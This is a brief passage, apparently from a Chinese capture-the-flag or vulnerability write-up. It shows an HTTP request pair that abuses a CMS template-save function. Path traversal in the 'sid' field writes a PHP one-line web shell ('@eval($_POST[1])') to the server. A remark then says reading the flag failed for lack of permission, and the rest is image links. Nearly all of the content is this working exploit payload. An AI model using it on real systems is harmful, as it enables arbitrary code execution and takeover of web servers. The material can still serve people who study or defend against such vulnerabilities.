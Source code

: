 ```plain
GET:
case=template&act=save&admin_dir=admin&site=default

POST:
sid=#data_d_.._d_.._d_.._d_1.php&slen=693&scontent=<?php @eval($_POST[1]);phpinfo();?>
```

[![](assets/1705540441-bfe66841fdb1726ca2ed4d3bc6628a06.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20240117194509-de03896c-b52d-1.jpg)

查看flag发现没有权限

[![](assets/1705540441-e170cb97eb27b698e9777e0f462b45d7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240116174603-1057eb68-b454-1.png)
